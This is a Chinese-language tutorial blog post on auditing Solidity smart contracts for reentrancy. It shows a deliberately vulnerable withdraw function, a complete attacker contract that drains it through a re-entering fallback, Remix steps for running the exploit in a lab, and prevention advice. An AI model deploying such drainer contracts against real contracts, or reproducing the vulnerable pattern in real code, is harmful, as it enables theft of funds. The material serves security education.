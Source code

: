 ```yaml
---
layout: post_layout
title: 智能合约审计-重入攻击
time: 2019年12月19日 星期四
location: 合肥
pulished: true
excerpt_separator: "#"
---
```


描述：漏洞合约中某个函数中，使用call()方法发送eth,若eth的接收者为一个合约地址，则会触发该合约的fallback()函数。若该合约是攻击者的恶意合约，攻击者可以在fallback()函数中重新调用漏洞合约的上述函数，导致重入攻击

核心问题：重要的合约变量在“重入”的过程中没有被修改，从而绕过了限制

# Fallback函数

概念:
    回退函数，是合约里的特殊无名函数，有且仅有一个。它在合约调用没有匹配到函数签名，或者调用没有带任何数据时被自动调用。

触发场景：

- address.send(ether_to_send)
   
- address.call().value(ether_to_send)
    
# 漏洞流程
![重入漏洞](/assets/demo/chongru.png)
# 漏洞合约分析
```sol
pragma solidity ^0.4.24;

contract ReentrancyGame {

  mapping (address => uint) public credit; //credit表示存储用户的余额

  event Deposit(address _who, uint value);  //Deposit表示充值
  event Withdraw(address _who, uint value);
    
  function deposit() payable public returns (bool) {
    credit[msg.sender] += msg.value; //credit调用deposit()函数进行充值使用msg.value进行ETH发送
    emit Deposit(msg.sender, msg.value);
    return true;
  }
    
  function withdraw(uint amount) public returns (bool) { //withdraw提币函数
    if (credit[msg.sender]>= amount) {
      msg.sender.call.value(amount)();
      credit[msg.sender]-=amount;
      emit Withdraw(msg.sender, amount);
      return true;
    }
    return false;
  }  

  function creditOf(address to) public returns (uint) {
    return credit[to];
  }
}
```
漏洞点：从提币开始，首先校验credit是否大于amount(本次提现的ETH),然后使用call.value进行转账，然后再扣除余额。这里漏洞点就出在我们先使用call.value对用户进行转账，然后再减少余额。就是因为这种情况，攻击者可以反复进行withdraw(),在进入withdraw()之前，第一步的校验仍然有效，在进入withdraw()之后，credit(余额)并没有减少，第一步的校验仍然有效，攻击者才能源源不断的从合约中提取ETH

# 攻击者合约
```sol
pragma solidity ^0.4.24;

contract ReentrancyGame {

  mapping (address => uint) public credit;

  event Deposit(address _who, uint value);
  event Withdraw(address _who, uint value);
    
  function deposit() payable public returns (bool) {
    credit[msg.sender] += msg.value;
    emit Deposit(msg.sender, msg.value);
    return true;
  }
    
  function withdraw(uint amount) public returns (bool) {
    if (credit[msg.sender]>= amount) {
      msg.sender.call.value(amount)();
      credit[msg.sender]-=amount;
      emit Withdraw(msg.sender, amount);
      return true;
    }
    return false;
  }  

  function creditOf(address to) public returns (uint) {
    return credit[to];
  }
  
  function checkBalance() public constant returns (uint){
      return this.balance;
  }
}

contract ReentrancyAttack {   //调用attack()函数对漏洞合约进行远远不断的偷取ETH
  ReentrancyGame public regame;
  address owner;

  function ReentrancyAttack (ReentrancyGame addr) payable { 
    owner = msg.sender;
    regame = addr;
  }

  function attack() public returns (bool){
    regame.deposit.value(1)();
    regame.withdraw(1);
    return true;
  }
  
  function geteth() public returns (bool){ 
    owner.transfer(this.balance); 
    return true;
  }

  function checkBalance() public constant returns (uint){
      return this.balance;
  }

  function() public payable { 
    regame.withdraw(1); 
  }
}
```

----------
# 使用Remix进行调试
- 首先对合约进行编译（Current version设置为0.4X，Auto compile，Enable Optimization全部勾上。编译完成后会出现2个合约分别为ReentrancyAttack，ReentrancyGame）

- 首先部署ReentrancyGame(漏洞合约)，这里Account设置一个受害者账户(0xca3...a733c)，然后点击Deploy部署完成后漏洞合约，这里还是需要充值一定数量的ETH便于实验观察（Value设置为100 wei ETH点击deposit,然后点击checkBalance查看当前受害者地址为100 wei ETH，这里受害者合约ReentrancyGame就部署完成了）

- 攻击者合约部署ReentrancyAttack(攻击者合约)，由于漏洞合约地址在提现的时候需要一定的ETH，所以这里在设置ReentrancyAttack合约的时候需要设置Value为5 wei ETH，Deploy设置为ReetrancyGame合约地址（注：这里是合约地址并不是账户地址）Account换一个账户(0x147...c160c)点击Deploy即可部署攻击者合约，部署完成后点击checkBalance查看当前账户余额为5 wei ETH,说明攻击者合约部署完成了

- 漏洞攻击-点击ReentrancyAttack(攻击者合约)attack即可攻击。攻击的过程中由于一直通过withdraw()函数进行循环提现，过程有点缓慢，等gas消耗完毕既可以查看(checkBalance)攻击者合约账号余额为51 wei ETH,再次查看ReentrancyGame(漏洞合约)账户余额为54 wei ETH,漏洞利用成功
# 漏洞预防


1. 在将 Ether 发送给外部合约时使用内置的 transfer() 函数 。transfer转账功能只发送 2300 gas 不足以使目的地址/合约调用另一份合约（即重入发送合约）。

2. 引入互斥锁。也就是说，要添加一个在代码执行过程中锁定合约的状态变量，阻止重入调用。

3. 将任何对未知地址执行外部调用的代码，放置在本地化函数或代码执行中作为最后一个操作，是一种很好的做法。这被称为 检查效果交互（checks-effects-interactions） 模式。
